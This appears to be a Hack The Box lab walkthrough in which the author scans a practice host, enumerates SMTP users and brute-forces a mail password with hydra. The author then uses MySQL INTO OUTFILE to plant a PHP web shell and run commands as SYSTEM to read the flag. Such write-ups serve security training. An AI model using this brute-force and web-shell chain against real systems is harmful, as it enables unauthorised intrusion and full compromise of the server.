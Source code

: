 # Attacking Common Services - Easy

We were commissioned by the company Inlanefreight to conduct a penetration test against three different hosts to check the servers' configuration and security. We were informed that a flag had been placed somewhere on each server to prove successful access. These flags have the following format:

* `HTB{...}`

Our task is to review the security of each of the three servers and present it to the customer. According to our information, the first server is a server that manages emails, customers, and their files.

## Walkthrough

```bash
nmap -sV 10.129.44.193
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp
25/tcp   open  smtp          hMailServer smtpd
80/tcp   open  http          Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/7.4.29)
443/tcp  open  https
587/tcp  open  smtp          hMailServer smtpd
3306/tcp open  mysql         MySQL 5.5.5-10.4.24-MariaDB
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

lets enumerate

```bash
sudo echo '10.129.44.193 inlanefreight.htb' >> /etc/hosts
smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t 10.129.44.193 -w 15 
#10.129.44.193: fiona@inlanefreight.htb exists
```

now we try to crack the smtp

```bash
hydra -l fiona@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt -f 10.129.44.193 smtp -t 64 
#[25][smtp] host: 10.129.44.193   login: fiona@inlanefreight.htb   password: 987654321
```

now with the found credentials lets try to login in https://10.129.44.193

```bash
#login creds fiona:987654321
https://10.129.203.7 #we can upload revershell here but cant run it, find other way
#after searching around we found this
http://10.129.203.7/dashboard/phpinfo.php #C:/xampp/htdocs/dashboard/phpinfo.php 
#C:/xampp/htdocs is the root folder
```

lets try the mysql

```bash
mysql -u fiona -p'987654321' -h 10.129.203.7
#mysql allow to write local file
SELECT "<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE 'C:/xampp/htdocs/dashboard/reverse.php ';
#now lets check the webpage
http://10.129.203.7/dashboard/reverse.php
#now lets give it commands
http://10.129.203.7/dashboard/reverse.php?cmd=whoami
#nt authority\system 
```

lets use burp suite for easier further commands

```bash
#capture this request http://10.129.203.7/dashboard/reverse.php?cmd=whoami
#send to repeater
#change the get request(ctrl + u for url encode)
GET /dashboard/reverse.php?cmd=type+C%3a\Users\Administrator\Desktop\flag.txt HTTP/1.1
"HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}"
```
